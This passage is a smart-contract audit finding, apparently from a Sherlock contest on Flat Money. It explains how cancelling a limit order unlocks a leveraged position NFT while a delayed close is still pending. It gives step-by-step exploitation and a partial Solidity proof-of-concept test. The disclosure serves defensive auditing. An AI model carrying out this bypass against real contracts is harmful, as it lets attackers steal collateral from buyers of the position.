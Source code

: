 # Issue H-1: The transfer lock for leveraged position orders can be bypassed 

Source: https://github.com/sherlock-audit/2023-12-flatmoney-judging/issues/48 

## Found by 
0xVolodya, 0xvj, Bauer, HSP, cawfree, dany.armstrong90, evmboi32, jennifer37, juan, ke1caM, nobody2018, novaman33, r0ck3tz, shaka, takarez
## Summary

The leveraged positions can be closed either through [`DelayedOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L28-L681) or through the [`LimitOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L27-L214). Once the order is announced via `DelayedOrder.announceLeverageClose` or `LimitOrder.announceLimitOrder` function the `LeverageModule`'s `lock` function is called to prevent given token to be transferred. This mechanism can be bypassed and it is possible to unlock the token transfer while having order announced.

## Vulnerability Detail

Exploitation scenario:
1. Attacker announces leverage close order for his position via `announceLeverageClose` of `DelayedOrder` contract.
2. Attacker announces limit order via `announceLimitOrder` of `LimitOrder` contract.
3. Attacker cancels limit order via `cancelLimitOrder` of `LimitOrder` contract.
4. The position is getting unlocked while the leverage close announcement is active.
5. Attacker sells the leveraged position to a third party.
6. Attacker executes the leverage close via `executeOrder` of `DelayedOrder` contract and gets the underlying collateral stealing the funds from the third party that the leveraged position was sold to.

Following proof of concept presents the attack:
```solidity
function testExploitTransferOut() public {
    uint256 collateralPrice = 1000e8;

    vm.startPrank(alice);

    uint256 balance = WETH.balanceOf(alice);
    console2.log("alice balance", balance);
    
    (uint256 minFillPrice, ) = oracleModProxy.getPrice();

    // Announce order through delayed orders to lock tokenId
    delayedOrderProxy.announceLeverageClose(
        tokenId,
        minFillPrice - 100, // add some slippage
        mockKeeperFee.getKeeperFee()
    );
    
    // Announce limit order to lock tokenId
    limitOrderProxy.announceLimitOrder({
        tokenId: tokenId,
        priceLowerThreshold: 900e18,
        priceUpperThreshold: 1100e18
    });
    
    // Cancel limit order to unlock tokenId
    limitOrderProxy.cancelLimitOrder(tokenId);
    
    balance = WETH.balanceOf(alice);
    console2.log("alice after creating two orders", balance);
```